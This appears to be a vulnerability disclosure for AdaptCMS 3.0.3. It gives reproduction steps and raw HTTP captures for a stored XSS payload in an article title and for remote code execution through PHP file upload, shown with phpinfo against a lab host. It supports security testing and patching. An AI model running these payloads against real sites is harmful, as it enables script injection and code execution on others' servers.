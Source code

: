 ### Stored XSS

To reproduce do the following:

1. Login as admin and add a new article
2. In "Title" add the following payload <svg><animate onbegin=alert(1) attributeName=x dur=1s>
3. The stored XSS would be triggered upon visiting the article by normal user

```
// HTTP POST request

POST /adaptcms/admin/articles/preview/?preview=1 HTTP/1.1
Host: 192.168.232.133
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
[...]

_method=PUT&data%5B_Token%5D%5Bkey%5D=357ba58e7871f0849edd3c623771a379e2fc1a2c&data%5BArticle%5D%5Btitle%5D=%3Csvg%3E%3Canimate+onbegin%3Dalert(1)+attributeName%3Dx+dur%3D1s%3E&data%5BArticleValue%5D%5B0%5D%5Bdata%5D=%3Cp%3ETest%3C%2Fp%3E[...]
```

```
// HTTP GET request

GET /adaptcms/admin/articles/preview HTTP/1.1
Host: 192.168.232.133
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
[...]
```

```
// HTTP response

HTTP/1.1 200 OK
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev Perl/v5.16.3
[...]

[...]
<!DOCTYPE html>
<html lang="en">
<head>
	<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />	<title>
		AdaptCMS 3.0.3 | <svg><animate onbegin=alert(1) attributeName=x dur=1s>	</title>
[...]
```

### RCE via File Upload

To reproduce do the following:

1. Login as admin and visit the "Media" page
2. Click on "Files" then use the "Add File" functionality
3. In "File Contents" add the following PHP code ```<?php phpinfo(); ?>```

```
// HTTP POST request

POST /adaptcms/admin/files/add HTTP/1.1
Host: 192.168.232.133
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
[...]

[...]
------WebKitFormBoundaryVO2wc6i6YcQWk3oU
Content-Disposition: form-data; name="data[0][File][dir]"

uploads/
------WebKitFormBoundaryVO2wc6i6YcQWk3oU
Content-Disposition: form-data; name="data[0][File][mimetype]"


------WebKitFormBoundaryVO2wc6i6YcQWk3oU
Content-Disposition: form-data; name="data[0][File][filesize]"


------WebKitFormBoundaryVO2wc6i6YcQWk3oU
Content-Disposition: form-data; name="data[File][content]"

<?php phpinfo(); ?>
------WebKitFormBoundaryVO2wc6i6YcQWk3oU
[...]
```

```
// HTTP response

HTTP/1.1 302 Found
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev Perl/v5.16.3
X-Powered-By: PHP/5.6.40
Location: http://192.168.232.133/adaptcms/admin/files
[...]
```

```
// HTTP GET request

GET /adaptcms/uploads/test-php.php HTTP/1.1
Host: 192.168.232.133
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
[...]
```

```
// HTTP response

HTTP/1.1 200 OK
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev Perl/v5.16.3
X-Powered-By: PHP/5.6.40
[...]

[...]
<h1 class="p">PHP Version 5.6.40</h1>
</td></tr>
</table>
<table>
<tr><td class="e">System </td><td class="v">Linux ubuntu 6.5.0-15-generic #15~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan 12 18:54:30 UTC 2 x86_64 </td></tr>
[...]
```

